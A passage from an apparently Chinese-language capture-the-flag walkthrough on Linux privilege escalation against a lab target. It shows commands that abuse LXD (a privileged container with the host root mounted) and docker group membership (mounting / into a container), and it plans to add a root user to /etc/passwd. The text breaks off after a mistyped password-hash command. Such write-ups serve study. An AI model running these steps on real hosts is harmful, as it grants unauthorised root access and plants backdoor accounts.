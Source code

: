 ![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhm16p8BPvmQF1jU4phClm58GENzUUz0VKQjGeFVyjN3ibYygibrx8Caqkw/640?wx_fmt=jpeg)

初始化容器

```
lxc init dmagicsec dmagicsec -c security.privileged=true
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmZicfTiatjc55BDccjl10NBYQ2q5RKIicKXyOeKDcB6tucmYOmI5ggMpdA/640?wx_fmt=jpeg)

映射容器

```
lxc config device add dmagicsec dmagicsec disk source=/ path=/mnt/root recursive=true
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmAib503CwkadogMkQGCZ1fqic6xrMlUeGRwJsZJpyA9UyvvCm0taqRAvQ/640?wx_fmt=jpeg)

启动容器

```
lxc start dmagicsec
```

执行交互 shell

```
lxc exec dmagicsec /bin/sh
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmHVIUxQFHtdbuV1s6hgMuqh7nfnaicPXB0gxOZxBVXribXC6Hf2IsjUMw/640?wx_fmt=png)

获取 flag

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmHVIUxQFHtdbuV1s6hgMuqh7nfnaicPXB0gxOZxBVXribXC6Hf2IsjUMw/640?wx_fmt=png)

docker 权限提升
-----------

查看 id 属于 docker 组，我们使用 docker 提权。

![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmr6PafiatLpPia5u5Ne7UcugM222uTN9EYCHlL7bO3jZZY2YM59pnE0Cg/640?wx_fmt=jpeg)

提升权限

```
docker run -it --rm -v /:/mnt bash
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmBo0ia0ZcH0dSTCnY2UPN7gwzlA7IFdPhia1MJKUiaQXBn08BkO7AulqRA/640?wx_fmt=png)

思路：目前我们将目标靶机的整盘目录挂载到了 docker 中，且在 / mnt 目录下，我们修改 / mnt 目录下面的文件，会直接影响到靶机。所以我们修改 / etc/passwd 文件，添加 root 权限用户。

生成密码

```
opensll passwd -1 -salt magisec 123456
```
